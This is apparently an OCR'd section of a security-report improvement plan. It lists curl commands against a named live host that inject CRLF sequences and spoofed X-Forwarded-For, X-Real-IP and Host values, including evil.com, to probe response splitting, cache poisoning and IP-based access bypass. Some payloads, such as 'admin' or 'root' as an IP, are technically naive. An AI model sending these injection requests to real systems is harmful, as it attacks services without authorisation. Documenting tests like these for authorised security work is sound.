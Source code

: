 #### **Current Problem**
- No clear exploitation impact demonstrated
- Theoretical vulnerability without real exploitation
- No specific attack scenarios shown

#### **Enhancement Strategy**
1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for IP-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1"
   
   # Test for admin IP spoofing
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 192.168.1.1" \
     -H "X-Real-IP: 192.168.1.1"
   ```

4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via IP headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: admin" \
     -H "X-Real-IP: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: root" \
     -H "X-Real-IP: root"
   ```
